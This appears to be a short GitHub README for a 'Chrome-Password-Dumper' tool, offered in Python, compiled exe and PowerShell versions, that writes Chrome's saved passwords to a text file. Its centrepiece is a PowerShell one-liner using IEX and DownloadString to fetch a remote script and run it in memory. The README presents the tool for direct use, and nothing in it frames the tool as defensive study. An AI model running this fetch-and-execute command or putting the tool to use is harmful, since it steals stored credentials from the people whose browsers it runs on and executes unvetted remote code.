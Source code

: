 # Chrome-Password-Dumper

For Windows version simply run **chrome.exe** to dump the passwords to a text file.

For **powershell** version: 
> IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/roflsandwich/Chrome-Password-Dumper/master/chrome.ps1')

**Chrome must be closed before running the PoC**

* chrome.py uncompiled version

* chrome.exe - compiled with py2exe

* chrome.ps1 - powershell version

* chromev2.ps1 - powershell version with a process check for chrome.

